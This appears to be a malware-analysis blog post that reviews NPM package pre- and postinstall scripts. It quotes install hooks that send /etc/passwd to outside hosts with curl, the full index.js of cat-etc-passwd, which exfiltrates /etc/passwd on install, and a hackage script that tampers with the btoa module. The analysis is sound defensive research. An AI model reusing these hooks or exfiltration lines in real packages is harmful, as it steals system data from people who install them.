 ```yaml
---
title: "NPM malware results, Oct 4, 2023"
date: 2023-10-04T00:00:00-07:00
tags:
  - malware-analysis
  - javascript
  - npm
---
```


Reviewing pre- and postinstall scripts for NPM packages.

References to `passwd`:

| package                    | version | preinstall                                                                      | postinstall                                                               |
|----------------------------|---------|---------------------------------------------------------------------------------|---------------------------------------------------------------------------|
| cat-etc-passwd             | 1.0.2   |                                                                                 | `node index.js`                                                             |
| cat-etc-passwd             | 1.0.3   |                                                                                 | `node index.js`                                                             |
| cat-etc-passwd             | 1.0.4   |                                                                                 | `node index.js`                                                             |
| securisecidonothing        | 1.0.2   | `cat /etc/passwd`                                                                 |                                                                           |
| sophs-test-package         | 1.7.6   | `blah /etc/passwd blah`                                                           |                                                                           |
| peekatchuysharmlesspackage | 1.0.15  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| peekatchuysharmlesspackage | 1.0.16  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| peekatchuysharmlesspackage | 1.0.17  | `touch ../../evil`                                                                | `brave https://www.youtube.com/watch?v=dQw4w9WgXcQ?autplay=1 && cat /etc/…` |
| lenskart                   | 1.0.5   | `/usr/bin/curl --data '@/etc/passwd' $(hostname).eo2z7l1ydft6861.m.pipedream.net` |                                                                           |
| lenskart                   | 1.0.6   | `/usr/bin/curl --data '@/etc/passwd' $(hostname).eo2z7l1ydft6861.m.pipedream.net` |                                                                           |

Packages that reference `request` during preinstall (such as to install the `request` library for HTTP requests):

| package                             | version  | preinstall                                                        | postinstall                 |
|-------------------------------------|----------|-------------------------------------------------------------------|-----------------------------|
| @0xshahriar/svgo                    | 1.3.1    | `curl -X POST -d 'Hello' https://0xshahriar.requestcatcher.com/`  |                             |
| @sagedotcomwebteam/sagedotcom       | 7.0.0    | `npm i request --save-dev`                                        | `node index.js`             |
| bashlist-mac                        | 1.0.1    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.0    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.1    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.2    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.3    | `pip install requests && python osdetect.py`                      |                             |
| bashlists                           | 1.0.4    | `pip install requests && python osdetect.py`                      |                             |
| build-package-json                  | 1.0.5    | `npm i readline-sync async-request async-child-process shelljs`   |                             |
| sagedotcom                          | 7.0.0    | `npm i request --save-dev`                                        | `node index.js`             |
| file-dependencies                   | 1.0.1    | `npm install q@1.1.2 request@2.53.0`                              | `node file-dependencies.js` |
| file-dependencies                   | 1.2.1    | `npm install q@1.1.2 request@2.53.0`                              | `node file-dependencies.js` |
| npm-curl-test                       | 1.0.0    | `curl --request GET \ --url http://192.168.188.5:3000/`           |                             |
| openshift-cli                       | 1.0.6    | `npm install request@2.74.0 unzip@0.1.11 && ./scripts/install.js` |                             |
| @res-dlt-interop/fabric-interop-sdk | 2.2.1-a… | `npm i request --save-dev`                                        | `node index.js`             |
| @res-dlt-interop/fabric-cli         | 2.2.1-a… | `npm i request --save-dev`                                        | `node index.js`             |
| @media-extensions/commons           | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| bunnymen                            | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| @coherence-design-system/controls   | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| @cseo/controls                      | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| foundation-docs                     | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| showcase-echo-client                | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |
| @create-aptos-app/eslint-config     | 0.0.1    | `npm i request --save-dev`                                        | `node index.js`             |


## cat-etc-passwd@1.0.4

`/index.js`

```js
const { exec } = require('child_process');
const fetch = require('node-fetch');

exec('cat /etc/passwd', (error, stdout, stderr) => {
  if (error) {
    console.error(`exec error: ${error}`);
    return;
  }

  fetch('https://us-central1-xenon-shard-259622.cloudfunctions.net/http-request-logger', {
    method: 'POST',
    body: `
      stdout:

      ${stdout}

      stderr:

      ${stderr}
    `
  });
});
```


## hackage@1.0.5

`/index.js` (postinstall script) inserts additional code into the `btoa` base64 encoding routine:

```js
const fs = require('fs');

try {
    const dir = fs.readdirSync('./node_modules/btoa');
    const file = fs.readFileSync('./node_modules/btoa/index.js');
    const content = file.toString();

    const newContent = content.replace("return buffer.toString('base64');", `
    console.log(str)
    return buffer.toString('base64');
    `);

    fs.writeFileSync('../henk', newContent);
    fs.writeFileSync('/henk', newContent);
    fs.writeFileSync('./node_modules/btoa/index.js', newContent);
} catch (e) {
    console.log('shame on me', e)
}
```

# further ideas

1. Packages that invoke the same script both during pre- and post install.
